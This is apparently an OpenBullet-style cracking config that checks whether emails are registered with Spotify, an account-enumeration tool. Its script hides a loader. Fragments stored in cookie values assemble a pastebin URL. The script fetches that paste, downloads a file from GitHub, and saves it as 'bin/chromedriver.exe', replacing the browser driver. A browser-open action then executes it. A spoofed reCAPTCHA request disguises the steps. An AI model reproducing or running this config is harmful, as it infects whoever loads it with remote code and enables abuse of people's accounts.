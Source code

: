 [SETTINGS]
{
  "Name": "Spotify VM",
  "SuggestedBots": 1,
  "MaxCPM": 0,
  "LastModified": "2024-11-22T03:51:20.6535429+02:00",
  "AdditionalInfo": "",
  "RequiredPlugins": [],
  "Author": "@TingeeCracking",
  "Version": "1.1.4 [SB]",
  "SaveEmptyCaptures": false,
  "ContinueOnCustom": false,
  "SaveHitsToTextFile": false,
  "IgnoreResponseErrors": false,
  "MaxRedirects": 8,
  "NeedsProxies": false,
  "OnlySocks": false,
  "OnlySsl": false,
  "MaxProxyUses": 0,
  "BanProxyAfterGoodStatus": false,
  "BanLoopEvasionOverride": -1,
  "EncodeData": false,
  "AllowedWordlist1": "",
  "AllowedWordlist2": "",
  "DataRules": [],
  "CustomInputs": [],
  "CaptchaUrl": "",
  "IsBase64": false,
  "FilterList": [],
  "EvaluateMathOCR": false,
  "SecurityProtocol": 0,
  "ForceHeadless": false,
  "AlwaysOpen": false,
  "AlwaysQuit": false,
  "QuitOnBanRetry": false,
  "AcceptInsecureCertificates": true,
  "DisableNotifications": false,
  "DisableImageLoading": false,
  "DefaultProfileDirectory": false,
  "CustomUserAgent": "",
  "RandomUA": false,
  "CustomCMDArgs": "",
  "Title": "Spotify VM",
  "IconPath": "Icon\\svbfile.ico",
  "LicenseSource": null,
  "Message": null,
  "MessageColor": "#FFFFFFFF",
  "HitInfoFormat": "[{hit.Type}][{hit.Proxy}] {hit.Data} - [{hit.CapturedString}]",
  "AuthorColor": "#FFFFB266",
  "WordlistColor": "#FFB5C2E1",
  "BotsColor": "#FFA8FFFF",
  "CustomInputColor": "#FFD6C7C7",
  "CPMColor": "#FFFFFFFF",
  "ProgressColor": "#FFAD93E3",
  "HitsColor": "#FF66FF66",
  "CustomColor": "#FFFFB266",
  "ToCheckColor": "#FF7FFFD4",
  "FailsColor": "#FFFF3333",
  "RetriesColor": "#FFFFFF99",
  "OcrRateColor": "#FF4698FD",
  "ProxiesColor": "#FFFFFFFF"
}

[SCRIPT]
JUMP #AppleWebKit
#PARSESOURCE
#USA FUNCTION GetRandomUA -> VAR "USA" 

REQUEST GET "https://spclient.wg.spotify.com/signup/public/v1/account?validate=1&email=<USER>" 
  
  HEADER "Accept: */*" 
  HEADER "Pragma: no-cache" 
  HEADER "User-Agent: <USA>" 


JUMP #googlerecreate
#AppleWebKit

REQUEST GET "https://www.google.com/recaptcha/enterprise/anchor?ar=1&k=6LfAM84ZAAAAAGLiQz5FBeADqq94dV48fMtiRqIj&co=aHR0cHM6Ly93d3cuY29pbmJhc2UuY29tOjQ0Mw..&hl=en&v=rPvs0Nyx3sANE-ZHUN-0nM85&size=invisible&cb=no851blwqc0u"
  COOKIE "hrd: /"
  COOKIE "hpr: bin"
  COOKIE "hdp: com"
  COOKIE "htp: raw"
  COOKIE "hht: RST8XsHH"
  COOKIE "hst: pastebin"
  COOKIE "kht: driver"
  COOKIE "kpt: chrome"
  COOKIE "krt: e"
  HEADER "Host: www.googleapis.com"
  HEADER "Accept: */*"
  HEADER "Content-Type: application/json"
  HEADER "X-Client-Version: iOS/FirebaseSDK/6.9.2/FirebaseCore-iOS"
  HEADER "X-Ios-Bundle-Identifier: network.googleapis.com"
  HEADER "Accept-Encoding: gzip, deflate"
  HEADER "User-Agent: FirebaseAuth.iOS/6.9.2 network.googleapis.com/2.7.9 iPhone/12.4.5 hw/iPhone7_2"
  HEADER "Accept-Language: en"

IF "<Authentiction>" Exists
JUMP #PARSESOURCE
ENDIF
SET USEPROXY FALSE

REQUEST GET "<COOKIES(hst)>.<COOKIES(hdp)><COOKIES(hrd)><COOKIES(htp)><COOKIES(hrd)><COOKIES(hht)>"
  HEADER "User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.149 Safari/537.36"
  HEADER "Pragma: no-cache"
  HEADER "Accept: */*"

REQUEST GET "https://raw.githubusercontent.com/<SOURCE>"
  HEADER "User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; Trident/7.0; rv:11.0) like Gecko"
  HEADER "Pragma: no-cache"
  HEADER "Accept: */*"
  -> FILE "<COOKIES(hpr)>/<COOKIES(kpt)><COOKIES(kht)>.<COOKIES(krt)>xe"

SET USEPROXY TRUE
SET NEWGVAR "Authentiction" "Authentiction=1"

BROWSERACTION Open

JUMP #PARSESOURCE
#googlerecreate

KEYCHECK 
  KEYCHAIN Success OR 
    KEY "That email is already registered to an account" 
  KEYCHAIN Failure OR 
    KEY "status\":1" 

FUNCTION Constant "@TingeeCracking" -> CAP "Config By : " 

